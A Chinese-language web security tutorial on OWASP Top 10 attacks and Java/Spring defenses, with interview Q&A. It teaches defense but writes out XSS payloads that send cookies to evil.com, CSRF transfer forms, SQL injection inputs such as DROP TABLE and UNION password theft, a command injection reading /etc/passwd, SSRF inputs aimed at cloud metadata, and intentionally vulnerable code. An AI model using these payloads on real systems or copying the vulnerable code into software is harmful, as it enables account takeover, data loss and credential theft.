






## Web安全攻防：理解攻击才能构建防御

Web 安全是后端工程师的底线能力。不了解攻击手段，就无法设计有效的防御体系。本文系统梳理 OWASP Top 10 中的核心攻击类型及其防御策略。

## OWASP Top 10 概览

OWASP（Open Web Application Security Project）每3-4年发布一次 Top 10，是 Web 安全的风向标。



| 排名 | 风险 | 核心问题 | 防御关键 |
|------|------|---------|---------|
| A01 | 权限控制失效 | 越权访问 | 最小权限 + 显式校验 |
| A03 | 注入攻击 | 未过滤输入 | 参数化查询 + 编码 |
| A07 | 身份认证失败 | 弱密码/会话管理 | MFA + 安全会话 |
| A10 | SSRF | 服务端发起恶意请求 | URL白名单 + 网络隔离 |

## XSS（跨站脚本攻击）

XSS 是最常见的 Web 攻击之一，攻击者将恶意脚本注入网页，在其他用户浏览器中执行。

### XSS 攻击类型



### 反射型 XSS

攻击者构造恶意 URL，服务端将参数原样嵌入页面返回：

```
https://example.com/search?q=<script>document.location='https://evil.com/steal?c='+document.cookie</script>
```

```java
// 脆弱代码 - 直接输出用户输入
@GetMapping("/search")
public String search(@RequestParam String q, Model model) {
    model.addAttribute("query", q);  // 未转义！
    return "search";
}
```

### 存储型 XSS

恶意脚本被存入数据库，所有浏览该内容的用户都会触发：

```
// 攻击者在评论框输入
Great article!<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
```

### DOM 型 XSS

前端 JavaScript 不安全地操作 DOM：

```javascript
// 脆弱代码 - innerHTML 直接插入
document.getElementById('output').innerHTML = new URLSearchParams(location.search).get('name');

// 同样脆弱的代码
document.write('<div>' + userInput + '</div>');
```

### XSS 防御策略

```java
// 1. 输出编码 - 根据上下文选择编码方式
public class XssEncoder {

    // HTML 上下文编码
    public static String htmlEncode(String input) {
        return input.replace("&", "&amp;")
                    .replace("<", "&lt;")
                    .replace(">", "&gt;")
                    .replace("\"", "&quot;")
                    .replace("'", "&#x27;");
    }

    // JavaScript 上下文编码
    public static String jsEncode(String input) {
        StringBuilder sb = new StringBuilder();
        for (char c : input.toCharArray()) {
            switch (c) {
                case '\'' -> sb.append("\\x27");
                case '"'  -> sb.append("\\x22");
                case '\\' -> sb.append("\\x5c");
                case '\n' -> sb.append("\\n");
                case '\r' -> sb.append("\\r");
                default -> {
                    if (c < 0x20) {
                        sb.append(String.format("\\x%02x", (int) c));
                    } else {
                        sb.append(c);
                    }
                }
            }
        }
        return sb.toString();
    }
}

// 2. CSP（Content Security Policy）
@Configuration
public class SecurityConfig extends WebSecurityConfigurerAdapter {

    @Override
    protected void configure(HttpSecurity http) throws Exception {
        http.headers().contentSecurityPolicy(
            "default-src 'self'; " +
            "script-src 'self' 'nonce-{nonce}'; " +
            "style-src 'self' 'unsafe-inline'; " +
            "img-src 'self' data: https:; " +
            "connect-src 'self'; " +
            "frame-ancestors 'none'; " +
            "base-uri 'self'; " +
            "form-action 'self'"
        );
    }
}

// 3. 输入过滤 - 使用 OWASP Java Encoder
import org.owasp.encoder.Encode;

String safeOutput = Encode.forHtml(userInput);
String safeJs = Encode.forJavaScript(userInput);
String safeUrl = Encode.forUriComponent(userInput);
```

### XSS 防御总结

| 防御手段 | 作用 | 优先级 |
|---------|------|--------|
| 输出编码 | 根据上下文转义特殊字符 | ⭐⭐⭐ |
| CSP | 限制脚本执行来源 | ⭐⭐⭐ |
| HttpOnly Cookie | 防止 JS 读取 Cookie | ⭐⭐ |
| 输入验证 | 白名单验证输入格式 | ⭐⭐ |
| DOM 净化 | 使用 DOMPurify 清理 HTML | ⭐⭐ |

## CSRF（跨站请求伪造）

CSRF 利用浏览器自动携带 Cookie 的特性，诱导用户在已认证的网站上执行非预期操作。

### CSRF 攻击流程



### CSRF 攻击载体

```html
<!-- GET 型 CSRF - 图片标签 -->


<!-- POST 型 CSRF - 自动提交表单 -->
<form action="https://bank.com/transfer" method="POST" id="csrf-form">
    <input type="hidden" name="to" value="hacker">
    <input type="hidden" name="amount" value="10000">
</form>
<script>document.getElementById('csrf-form').submit();</script>

<!-- Fetch 型 CSRF -->
<script>
fetch('https://bank.com/transfer', {
    method: 'POST',
    credentials: 'include',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: 'to=hacker&amount=10000'
});
</script>
```

### CSRF 防御

```java
// 1. CSRF Token - Spring Security 默认启用
@Configuration
public class SecurityConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http.csrf(csrf -> csrf
            .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse())
            .csrfTokenRequestHandler(new CsrfTokenRequestAttributeHandler())
        );
        return http.build();
    }
}

// 前端携带 CSRF Token
// axios.defaults.headers.common['X-XSRF-TOKEN'] = getCookie('XSRF-TOKEN');

// 2. SameSite Cookie
// Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly

// 3. 验证 Origin / Referer
@Component
public class OriginFilter extends OncePerRequestFilter {

    private static final Set<String> ALLOWED_ORIGINS = Set.of(
        "https://example.com",
        "https://app.example.com"
    );

    @Override
    protected void doFilterInternal(HttpServletRequest request,
                                     HttpServletResponse response,
                                     FilterChain chain) throws ServletException, IOException {
        String origin = request.getHeader("Origin");
        if (origin != null && !ALLOWED_ORIGINS.contains(origin)) {
            response.sendError(403, "Invalid Origin");
            return;
        }
        chain.doFilter(request, response);
    }
}
```

| 防御手段 | 原理 | 优先级 |
|---------|------|--------|
| CSRF Token | 请求必须携带服务端签发的令牌 | ⭐⭐⭐ |
| SameSite Cookie | 限制跨站请求携带 Cookie | ⭐⭐⭐ |
| Origin/Referer 校验 | 验证请求来源 | ⭐⭐ |
| 双重 Cookie | Cookie + 请求体同时携带 | ⭐ |

## SQL 注入

SQL 注入是最经典的注入攻击，攻击者通过构造恶意输入篡改 SQL 语句。

### 注入类型



### 攻击示例

```java
// 脆弱代码 - 字符串拼接SQL
@GetMapping("/user")
public User getUser(@RequestParam String id) {
    String sql = "SELECT * FROM users WHERE id = " + id;  // 危险！
    return jdbcTemplate.queryForObject(sql, new UserRowMapper());
}

// 攻击输入: 1 OR 1=1
// 实际SQL: SELECT * FROM users WHERE id = 1 OR 1=1
// 返回所有用户数据！

// 攻击输入: 1; DROP TABLE users; --
// 实际SQL: SELECT * FROM users WHERE id = 1; DROP TABLE users; --
// 删除整张表！

// 联合查询注入
// 输入: 1 UNION SELECT password,1,1 FROM admins --
// SQL: SELECT * FROM users WHERE id = 1 UNION SELECT password,1,1 FROM admins --
```

### SQL 注入防御

```java
// 1. 参数化查询（最有效）
@GetMapping("/user")
public User getUser(@RequestParam String id) {
    String sql = "SELECT * FROM users WHERE id = ?";
    return jdbcTemplate.queryForObject(sql, new UserRowMapper(), id);
}

// 2. JPA/Hibernate - 自动参数化
@Repository
public interface UserRepository extends JpaRepository<User, Long> {
    @Query("SELECT u FROM User u WHERE u.name = :name")
    User findByName(@Param("name") String name);
}

// 3. MyBatis - 使用 #{} 而非 ${}
// 安全：#{id} → PreparedStatement 参数
// 危险：${id} → 字符串拼接
// <select id="getUser" resultType="User">
//   SELECT * FROM users WHERE id = #{id}
// </select>

// 4. 输入验证 - 白名单
public class InputValidator {
    private static final Pattern ID_PATTERN = Pattern.compile("^[1-9]\\d{0,18}$");

    public static String validateId(String id) {
        if (!ID_PATTERN.matcher(id).matches()) {
            throw new IllegalArgumentException("Invalid ID format");
        }
        return id;
    }
}

// 5. 最小权限原则 - 数据库账号只授予必要权限
// 应用账号: SELECT, INSERT, UPDATE
// 管理账号: DDL, DBA 权限分离
```

## 命令注入

命令注入是 SQL 注入的操作系统级变体，攻击者通过输入构造系统命令。

```java
// 脆弱代码 - 直接执行用户输入
@GetMapping("/ping")
public String ping(@RequestParam String host) {
    try {
        Process process = Runtime.getRuntime().exec("ping -c 3 " + host);
        // 攻击输入: 127.0.0.1; cat /etc/passwd
        // 实际执行: ping -c 3 127.0.0.1; cat /etc/passwd
        return readOutput(process);
    } catch (IOException e) {
        return "Error";
    }
}

// 安全代码 - 使用ProcessBuilder + 白名单
@GetMapping("/ping")
public String ping(@RequestParam String host) {
    // 白名单验证
    if (!host.matches("^[a-zA-Z0-9.-]+$")) {
        throw new IllegalArgumentException("Invalid host");
    }

    try {
        ProcessBuilder pb = new ProcessBuilder("ping", "-c", "3", host);
        Process process = pb.start();
        return readOutput(process);
    } catch (IOException e) {
        return "Error";
    }
}
```

## SSRF（服务端请求伪造）

SSRF 攻击者诱使服务端发起请求，访问内部网络资源。

### SSRF 攻击场景



```java
// 脆弱代码 - 未限制URL
@GetMapping("/fetch")
public String fetchUrl(@RequestParam String url) {
    // 攻击输入: http://169.254.169.254/latest/meta-data/ (AWS元数据)
    // 攻击输入: http://127.0.0.1:6379/ (Redis)
    // 攻击输入: file:///etc/passwd
    return restTemplate.getForObject(url, String.class);
}

// 安全代码 - URL白名单 + 网络限制
@GetMapping("/fetch")
public String fetchUrl(@RequestParam String url) {
    // 1. 协议限制
    URI uri = URI.create(url);
    if (!List.of("http", "https").contains(uri.getScheme())) {
        throw new SecurityException("Only HTTP/HTTPS allowed");
    }

    // 2. 域名白名单
    String host = uri.getHost();
    if (!ALLOWED_HOSTS.contains(host)) {
        throw new SecurityException("Host not allowed: " + host);
    }

    // 3. 禁止内网地址
    try {
        InetAddress address = InetAddress.getByName(host);
        if (address.isLoopbackAddress() || address.isSiteLocalAddress()
            || address.isLinkLocalAddress()) {
            throw new SecurityException("Internal address not allowed");
        }
    } catch (UnknownHostException e) {
        throw new SecurityException("Invalid host");
    }

    return restTemplate.getForObject(url, String.class);
}
```

## 点击劫持（Clickjacking）

攻击者将目标网站嵌入透明 iframe，诱导用户点击：

```html
<!-- 攻击页面 -->
<style>
    iframe {
        position: absolute;
        top: 0;
        left: 0;
        width: 500px;
        height: 300px;
        opacity: 0.01;  /* 几乎透明 */
        z-index: 10;
    }
</style>
<button>Click to win prize!</button>  <!-- 诱饵按钮 -->
<iframe src="https://bank.com/transfer?to=hacker&amount=10000"></iframe>
```

### 防御

```java
// X-Frame-Options / CSP frame-ancestors
http.headers()
    .frameOptions().deny()  // 或 sameOrigin
    .contentSecurityPolicy("frame-ancestors 'self'");
```

## CSP（Content Security Policy）策略

CSP 是最强大的 XSS 防御机制，通过 HTTP 头声明允许加载的资源来源。

```
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'nonce-abc123' https://cdn.example.com;
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  connect-src 'self' https://api.example.com;
  font-src 'self' https://fonts.googleapis.com;
  frame-ancestors 'none';
  base-uri 'self';
  form-action 'self';
  report-uri /csp-report;
```

| 指令 | 作用 | 示例 |
|------|------|------|
| default-src | 默认资源策略 | `'self'` |
| script-src | JS 来源限制 | `'self' 'nonce-xxx'` |
| style-src | CSS 来源限制 | `'self' 'unsafe-inline'` |
| img-src | 图片来源限制 | `'self' data: https:` |
| connect-src | AJAX/WebSocket 来源 | `'self' https://api.example.com` |
| frame-ancestors | 嵌入限制（防点击劫持） | `'none'` |
| report-uri | 违规报告地址 | `/csp-report` |

### CSP nonce 模式

```java
// 服务端生成 nonce
@Controller
public class PageController {

    @GetMapping("/")
    public String index(Model model) {
        String nonce = Base64.getEncoder()
            .encodeToString(UUID.randomUUID().toString().getBytes());
        model.addAttribute("cspNonce", nonce);
        return "index";
    }
}

// HTML 中使用 nonce
// <script nonce="${cspNonce}">
//   console.log('This script is allowed by CSP');
// </script>
```

## 输入验证与输出编码

安全的核心原则：**输入验证（白名单）+ 输出编码（上下文相关）**。



### 纵深防御策略

| 层级 | 措施 | 示例 |
|------|------|------|
| 网络层 | WAF | 拦截恶意请求模式 |
| 应用层 | 输入验证 | 白名单校验格式 |
| 应用层 | 输出编码 | HTML/JS/URL 编码 |
| 应用层 | CSP | 限制脚本执行 |
| 数据层 | 参数化查询 | PreparedStatement |
| 数据层 | 最小权限 | 只授予必要 DB 权限 |

## 面试 Q&A

**Q1：存储型 XSS 和反射型 XSS 的区别是什么？哪个危害更大？**

A：反射型 XSS 的恶意脚本在 URL 参数中，需要诱骗用户点击特制链接，一次性触发；存储型 XSS 的恶意脚本被存入数据库，所有浏览该内容的用户都会触发，持久化存在。

**存储型 XSS 危害更大**，因为：(1) 不需要诱骗用户点击特定链接，正常浏览即可触发；

(2) 影响范围广，所有访问该内容的用户都受影响；

(3) 持续时间长，直到数据被清理。

防御核心都是输出编码，但存储型 XSS 还需要在数据写入时做 HTML 净化（如 DOMPurify）。

**Q2：有了 SameSite Cookie，还需要 CSRF Token 吗？**

A：**需要两者配合使用**。SameSite=Strict 最安全但影响用户体验（从外部链接进入不带 Cookie）；SameSite=Lax 是默认值，保护 GET 请求但 POST 请求仍可能被利用。CSRF Token 提供了应用层的保护，不依赖浏览器特性。

最佳实践：SameSite=Lax + CSRF Token，双重保障。

对于纯 API 服务（使用 Authorization 头而非 Cookie），则不需要 CSRF Token，因为浏览器不会自动携带自定义头。

**Q3：如何防止 SQL 注入？为什么参数化查询有效？**

A：参数化查询是防止 SQL 注入的**唯一可靠方法**。

原理：参数化查询将 SQL 结构与数据分离，数据库驱动先发送 SQL 框架（含占位符），再发送参数值。

参数值永远不会被解析为 SQL 语法——无论输入什么，都只被当作数据处理。`#{}` (MyBatis) 和 `?` (JDBC) 是参数化，`${}` 是字符串拼接，**永远不要用 `${}` 接收用户输入**。

其他措施（输入验证、ORM、最小权限）是纵深防御，不能替代参数化查询。

**Q4：CSP 如何防御 XSS？有哪些限制？**

A：CSP 通过声明允许加载资源的来源来防御 XSS：(1) `script-src 'self'` 只允许同源脚本，阻止内联和外部恶意脚本；

(2) `nonce-xxx` 模式只允许带特定 nonce 的脚本执行；

(3) `report-uri` 收集违规报告。CSP 的限制：(1) 不能防御同源脚本漏洞（如果自己的 JS 有 XSS）；

(2) `unsafe-inline` 和 `unsafe-eval` 会大幅削弱保护；

(3) 部署需要逐步迁移，先使用 `Content-Security-Policy-Report-Only` 观察违规情况再正式启用。

**Q5：SSRF 在云环境下为什么特别危险？**

A：云环境的元数据服务（如 AWS 的 `169.254.169.254`）通过内网 IP 访问，无需认证。

一旦 SSRF 漏洞允许访问该地址，攻击者可以获取：(1) IAM 临时凭证（可操作 AWS 资源）；

(2) 实例元数据（VPC、安全组信息）；

(3) 用户数据（可能包含启动脚本中的密钥）。

防御措施：(1) URL 白名单 + 禁止内网地址；

(2) IMDSv2（要求 PUT 请求获取 Token，SSRF 无法利用）；

(3) 网络层隔离（安全组禁止实例访问元数据以外的内网地址）；

(4) 出站流量代理。

<div class='context-nav'>
<a class='context-link prev disabled'><span class='context-label'>上一篇</span><span class='context-title'>暂无</span></a>
<a class='context-link next' href='/software-fundamentals/posts/安全-认证与授权/'><span class='context-label'>下一篇</span><span class='context-title'>安全 - 认证与授权</span></a>
</div>
